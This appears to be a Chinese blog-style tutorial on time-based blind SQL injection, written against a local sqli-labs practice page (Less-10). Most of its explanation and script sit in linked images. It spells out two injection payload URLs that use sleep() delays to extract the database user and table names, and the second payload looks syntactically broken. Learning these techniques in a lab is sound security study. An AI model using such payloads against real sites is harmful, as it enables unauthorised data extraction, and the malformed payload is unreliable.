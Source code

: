 ```yaml
---
layout: post
title: "1.3.2-SQL注入-SQL盲注-时间盲注"
date: 2018-06-23
category: web安全
tags: web安全 sql注入 时间盲注
---
```


## 时间盲注

### 时间盲注原理
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/01.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/02.png)



### 时间盲注方法

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/03.png)
	
	http://localhost:90/Less-10/?id=1" and if(left(user(),1)='a',0,sleep(3))--+

	http://localhost:90/Less-10/?id=1" and if(left(select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='r',0,sleep(3))--+

时间注入脚本  

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/04.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/05.png)
